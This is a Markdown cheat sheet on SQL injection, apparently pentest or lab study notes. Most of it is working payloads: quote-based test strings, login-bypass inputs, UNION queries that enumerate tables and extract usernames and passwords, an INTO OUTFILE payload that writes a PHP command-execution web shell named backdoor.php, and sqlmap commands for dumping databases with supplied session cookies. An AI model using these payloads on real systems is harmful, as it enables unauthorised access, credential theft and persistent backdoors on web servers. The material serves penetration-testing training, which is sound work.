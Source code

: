 # SQL injection

## Basic technique

Stick `'` in a parameter and see if it throws a database error \(and note what kind\).

Another simple test:

```text
' or '1'='1
```

Other tests:

```text
-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
or true--
" or true--
' or true--
") or true--
') or true--
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
```

### POST parameters

You can also attempt to inject parameters passed using POST requests, but you'll need Burp or Firefox tamper to view and edit them. For example, you can test a parameter by adding a `'` at the end, like `lang=en'`.

## Bypassing authentication

If you find a poorly-sanitized login page, you can attempt to log in without credentials by injecting the username parameter:

```text
username' or 1=1;#
username'-
```

## Database enumeration

The exact syntax for injection will vary by database type. In most lab scenarios, the database will be MySQL.

Get version:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,@@version,5
```

You can get the number of columns through trial and error using `order by`. For each query, increase the column number until the database throws an unknown column error:

```text
http://[host]/inject.php?id=54 order by 1
http://[host]/inject.php?id=54 order by 2
http://[host]/inject.php?id=54 order by 3
```

Get the current user:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,user(),5
```

See all tables:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,table_name,5 FROM information_schema.tables
```

Get column names for a specified table:

```text
http://[host]/inject.php?id=1 union all select 1,2,3,column_name,5 FROM information_schema.columns where table_name='users'
```

Get usernames and passwords \(0x3a means `:`\):

```text
http://[host]/inject.php?id=1 union all select 1,2,3,concat(name, 0x3A , password),5 from users
```

You might be able to write to system files depending on permission levels using MySQL's `INTO OUTFILE` function to create a php shell in the web root:

```text
http://[host]/inject.php?id=54 union all select 1,2,3,4,"<?php echo shell_exec($_GET['cmd']);?>",6 into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```

I suspect you could inject a full reverse shell in there too...

## SQLmap

Assuming you've tested a parameter with `'` and it is injectable, run SQL map against the URL:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbms=mysql
```

It may not run unless you specify the database type.

Get the databases:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dbs --dbms=mysql
```

Get the tables in a database:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --tables -D [database name]
```

Get the columns in a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --columns -D [database name] -T [table name]
```

Dump a table:

```text
sqlmap -u "http://[host]/inject.php?param1=1&param2=whatever" --dump -D [database name] -T [table name]
```

### Passing tokens

If the URL isn't accessible, you can pass cookie data or authentication credentials to SQLmap by pasting the post request in a file and using the `-r` option:

```text
sqlmap -r request.txt
```

If you just need to pass a cookie:

```text
sqlmap -u "http://[host]/inject.php" --cookie "PHPSESSID=foobar"
```

### REST-style URLs

If your URLs have no parameters, you can still test them:

```text
sqlmap -u "http://[host]/param1*/param2*"
```

## Further reading

* [Gaining a reverse shell from SQL injection](https://resources.infosecinstitute.com/anatomy-of-an-attack-gaining-reverse-shell-from-sql-injection/)
* [SQL injection cheat sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
* [Dumping a complete database using SQL injection](https://resources.infosecinstitute.com/dumping-a-database-using-sql-injection/#gref)
* [Hacking node.js and MongoDB](https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html)
* [SQLmap tutorial](https://www.binarytides.com/sqlmap-hacking-tutorial/)

